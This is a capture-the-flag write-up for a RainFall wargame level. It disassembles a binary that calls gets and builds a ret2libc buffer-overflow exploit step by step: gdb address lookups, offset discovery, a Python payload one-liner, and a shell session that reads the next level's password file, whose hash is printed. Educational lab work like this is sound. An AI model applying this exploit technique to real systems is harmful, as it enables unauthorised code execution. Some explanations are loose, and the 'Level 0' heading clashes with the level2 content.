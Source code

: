 [README](../README.md)
# Level 0

## GDB Disassembly
### Main
**Dump of assembler code for function main:**
```
   0x0804853f <+0>:     push   %ebp
   0x08048540 <+1>:     mov    %esp,%ebp
   0x08048542 <+3>:     and    $0xfffffff0,%esp
   0x08048545 <+6>:     call   0x80484d4 <p>
   0x0804854a <+11>:    leave
   0x0804854b <+12>:    ret
```

`call   0x80484d4 <p>`
Calls the function `p` located at memory address `0x80484d4`

### `p` function
**Dump of assembler code for function p:**
```
   0x080484d4 <+0>:     push   %ebp
   0x080484d5 <+1>:     mov    %esp,%ebp
   0x080484d7 <+3>:     sub    $0x68,%esp
   0x080484da <+6>:     mov    0x8049860,%eax
   0x080484df <+11>:    mov    %eax,(%esp)
   0x080484e2 <+14>:    call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:    lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:    mov    %eax,(%esp)
   0x080484ed <+25>:    call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:    mov    0x4(%ebp),%eax
   0x080484f5 <+33>:    mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:    mov    -0xc(%ebp),%eax
   0x080484fb <+39>:    and    $0xb0000000,%eax
   0x08048500 <+44>:    cmp    $0xb0000000,%eax
   0x08048505 <+49>:    jne    0x8048527 <p+83>
   0x08048507 <+51>:    mov    $0x8048620,%eax
   0x0804850c <+56>:    mov    -0xc(%ebp),%edx
   0x0804850f <+59>:    mov    %edx,0x4(%esp)
   0x08048513 <+63>:    mov    %eax,(%esp)
   0x08048516 <+66>:    call   0x80483a0 <printf@plt>
   0x0804851b <+71>:    movl   $0x1,(%esp)
   0x08048522 <+78>:    call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:    lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:    mov    %eax,(%esp)
   0x0804852d <+89>:    call   0x80483f0 <puts@plt>
   0x08048532 <+94>:    lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:    mov    %eax,(%esp)
   0x08048538 <+100>:   call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:   leave
   0x0804853e <+106>:   ret
```

#### Breakdown
**Function prologue:**
- `push %ebp`: Save the current base pointer on the stack.
- `mov %esp,%ebp`: Set up the base pointer to point to the current stack frame.
- `sub $0x68,%esp`: Allocate space on the stack for local variables by subtracting 104 bytes (0x68) from the stack pointer.

**Body:**
- `mov 0x8049860,%eax`: Load a value from memory address 0x8049860 into the eax register.
    - `(gdb) x/d 0x8049860 ->  <stdout@@GLIBC_2.0>:  0`
- `mov %eax,(%esp)`: Move the value in eax onto the stack.
- `call 0x80483b0 <fflush@plt>`: Call the fflush function.
- `lea -0x4c(%ebp),%eax`: Load the effective address of ebp - 0x4c into eax. This likely represents the address of a local variable or buffer.
- `mov %eax,(%esp)`: Move the address stored in eax onto the stack.
- `call 0x80483c0 <gets@plt>`: Call the gets function to read input from the user. Note that using gets is unsafe due to its vulnerability to buffer overflow attacks.
- `mov 0x4(%ebp),%eax`: Move the value of the first function argument into eax.
- `mov %eax,-0xc(%ebp)`: Move the value in eax to the address ebp - 0xc. This likely stores a function argument in a local variable.

- `and    $0xb0000000,%eax`
- `cmp    $0xb0000000,%eax`
    - The and instruction performs a bitwise AND operation between the value stored in the EAX register and the constant 0xb0000000. This operation sets all bits in EAX to 0, except for the 11 most significant bits. The resulting value is then compared with the constant 0xb0000000 using the cmp instruction.

`0xb0000000 hex - 2,952,790,016 dec - 1011 0000 0000 0000 0000 0000 0000 0000`
We now that the stack size is between 2,25Go and 3Go
- https://www.ibm.com/docs/fr/sdk-java-technology/8?topic=only-automatic-ldr-cntrlmaxdata-values-32-bit

This check ensures that the return address of the p function is not overwritten with an address on the stack. The stack is typically located at lower memory addresses than the code section, so addresses on the stack will have different values for their most significant bits compared to addresses in the code section. By performing this check, the program can detect if an attacker is attempting to overwrite the return address with an address on the stack, and prevent the attack from succeeding.

## Exploit
- `gets` is vulnerable to buffer overflow 

The stack memory check guides us toward a return to libc attack or ret2libc

### Ret2libc
-> https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc

A return to libc attack involves overwriting the return address of a vulnerable function with the memory address of a useful function in a shared library, such as libc. This allows the attacker to execute arbitrary code with the privileges of the vulnerable program.

![Ret2libc_diagram](https://www.ired.team/~gitbook/image?url=https:%2F%2F386337598-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-LFEMnER3fywgFHoroYn%252F-MXwAmlrjE8Ejl_0OQQX%252F-MY1FO9lURZfx9fTrAf0%252Fimage.png%3Falt=media%26token=39659182-e3ff-4d34-a031-c7091567890a&width=768&dpr=1&quality=100&sign=f88dacfcb566be08069d8a02d879238cc162108931a57324e2a75c7e5ed31fa7)

**Finding system():**
In GDB, we can use the p command to print the memory address of the system function:
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
```

**Finding /bin/sh:**
We want to hijack the vulnerable program and force it to call `system("/bin/sh")` and spawn the shell for us. The `system()` function is declared as `system(const char* command)`, so we need to pass it a memory address that contains the string that we want to execute. We need to find a memory location inside the vulnerable program that contains the string /bin/sh.

In GDB, we can use the info proc map command to view the memory map of the process:

```
(gdb) info proc map
process 5879
Mapped address spaces:
    Start Addr   End Addr       Size     Offset objfile
        0x8048000  0x8049000     0x1000        0x0 /home/user/level2/level2
        0x8049000  0x804a000     0x1000        0x0 /home/user/level2/level2
    0xb7e2b000 0xb7e2c000     0x1000        0x0
    0xb7e2c000 0xb7fcf000   0x1a3000        0x0 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fcf000 0xb7fd1000     0x2000   0x1a3000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd1000 0xb7fd2000     0x1000   0x1a5000 /lib/i386-linux-gnu/libc-2.15.so
    0xb7fd2000 0xb7fd5000     0x3000        0x0
    0xb7fdb000 0xb7fdd000     0x2000        0x0
    0xb7fdd000 0xb7fde000     0x1000        0x0 [vdso]
    0xb7fde000 0xb7ffe000    0x20000        0x0 /lib/i386-linux-gnu/ld-2.15.so
    0xb7ffe000 0xb7fff000     0x1000    0x1f000 /lib/i386-linux-gnu/ld-2.15.so
    0xb7fff000 0xb8000000     0x1000    0x20000 /lib/i386-linux-gnu/ld-2.15.so
    0xbffdf000 0xc0000000    0x21000        0x0 [stack]
```
This shows us that `/lib/i386-linux-gnu/libc-2.15.so` starts at `0xb7e2c000`.
We can use the find command to search for the string `/bin/sh` in this memory region:

```
(gdb)  find &system, +9999999, "/bin/sh"
0xb7f8cc58
warning: Unable to access target memory at 0xb7fd3160, halting search.
1 pattern found.
```

**Exploit:**
First, we need to find out how many characters we need to send to the program to trigger the buffer overflow. We can use a pattern generator to generate a unique string that will allow us to determine the exact offset of the buffer overflow.
```
(gdb) run
Starting program: /home/user/level2/level2 
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A

Program received signal SIGSEGV, Segmentation fault.
0x37634136 in ?? ()
(gdb) info register eip
eip            0x37634136       0x37634136
```
The value of EIP is 0x37634136, which corresponds to the string "6Ac7" in the pattern. We can use the pattern offset calculator to determine the exact offset of the buffer overflow:

`echo "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A" | pattern_offset.rb 6Ac7
80`

**Construct the payload:**
Fill up the buffer with 80 characters
`payload = A*80 + address of system() + return address for system() + overwrite_ebp + adress of "/bin/sh"`

We need to overwrite the value of ebp register, the saved EBP is used to restore the previous stack frame when the function returns. We can overwrite the saved EBP value on the stack with a known value, such as 0x90909090. This is done to ensure that the stack frame is properly aligned when the function returns, and to prevent any unintended consequences of overwriting the saved EBP value.

Using little endian:
- ret instruction address: `0x0804853e` - `\x3e\x85\x04\x08`
- system address: `0xb7e6b060` - `\x60\xb0\xe6\xb7`
- "/bin/sh" address: `0xb7f8cc58` - `\x58\xcc\xf8\xb7`

We can use Python to construct the payload:
```
level2@RainFall:~$ python -c 'print "a" * 80 + "\x3e\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "aaaa" + "\x58\xcc\xf8\xb7"' > /tmp/exploit

level2@RainFall:~$ cat /tmp/exploit - | ./level2
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa>aaaaaaaaaaaa>`��aaaaX���
whoami
level3
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```

